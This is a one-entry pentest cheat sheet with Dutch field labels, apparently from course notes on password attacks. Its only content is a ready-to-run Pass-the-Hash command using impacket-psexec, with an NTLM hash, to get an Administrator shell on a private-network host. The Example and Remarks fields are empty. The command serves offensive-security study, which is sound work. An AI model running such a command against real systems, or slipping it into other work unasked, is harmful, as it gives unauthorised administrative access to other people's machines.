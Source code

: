 # 16.Password Attacks — Entry 35

## Categorie

PtH impacket

## Commando

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

## Omschrijving

Pass-the-Hash attack via impacket-psexec

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

